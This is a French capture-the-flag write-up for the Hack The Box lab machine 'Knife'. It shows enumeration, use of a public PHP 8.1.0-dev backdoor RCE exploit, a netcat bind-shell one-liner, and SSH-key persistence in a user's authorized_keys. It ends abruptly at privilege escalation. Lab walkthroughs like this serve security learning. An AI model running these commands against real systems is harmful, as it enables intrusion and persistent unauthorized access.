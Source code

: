 - [Enumération de la machine](#enumération-de-la-machine)
- [User](#user)
  - [Service Web](#service-web)
    - [Enumération Web](#enumération-web)
    - [Recherche d'exploit pour Apache 2.4.41](#recherche-dexploit-pour-apache-2441)
      - [Recherche pour Apache 2.4.41](#recherche-pour-apache-2441)
      - [Recherche pour PHP 8.1.0-dev](#recherche-pour-php-810-dev)
    - [Récupérer un shell propre](#récupérer-un-shell-propre)
- [Privilège escalation](#privilège-escalation)


# Enumération de la machine 

```
nmap -sV -p- knife.htb
[...]
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

# User 

## Service Web 

### Enumération Web 

J'ai testé plusieurs énumération mais elles n'ont rien données:

1. Enumération Web classique: `gobuster dir -u http://knife.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt`
2. Enumération des sous-domaine DNS: `gobuster dns -u http://knife.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt`
3. Enumération des Virtual-Hosts: `gobuster vhost -u http://knife.htb -w /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt`

### Recherche d'exploit pour Apache 2.4.41

```
whatweb

http://knife.htb [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.162.32], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```
#### Recherche pour Apache 2.4.41

    searchsploit Apache 2.4.41

Rien d'intéressant.
Intéressons nous au deamon php

#### Recherche pour PHP 8.1.0-dev

    searchsploit php 8.1.0-dev

On voit un exploit intéressant php/webapps/49933.py

    PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution   | php/webapps/49933.py

On télécharge l'exploit:

    searchsploit -m php/webapps/49933.py

Pour exécuter le script:
    
    python3 49933.py
    # Entrer l'adresse complète pour l'attaque, ex:
    http://knife.htb

### Récupérer un shell propre

Nous avons un shell très limité (non intéractif), essayons d'en récupérer un meilleur (intéractif, pour avoir la possibilité de l'upgrader).

1. Lancer un bind shell sur la cible `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash 2>&1|nc -lp 4444 >/tmp/f`
2. Se connecter avec notre Kali sur la machine cible et sur le port 4444 (permet d'avoir un shell tty interactif) `nc 10.129.162.32 4444`
3. Récupérer un tty `python3 -c "import pty;pty.spawn('/bin/bash')"`

Pour finir, ajouter notre clé public SSH dans `/home/james/.ssh/authorized_keys`

Nous avons maintenant un accès SSH avec un shell complet. Pour se connecter: 

`ssh james@knife.htb`

# Privilège escalation

Il semble qu'il fut exploiter une faille au niveau du binaire "knife" 
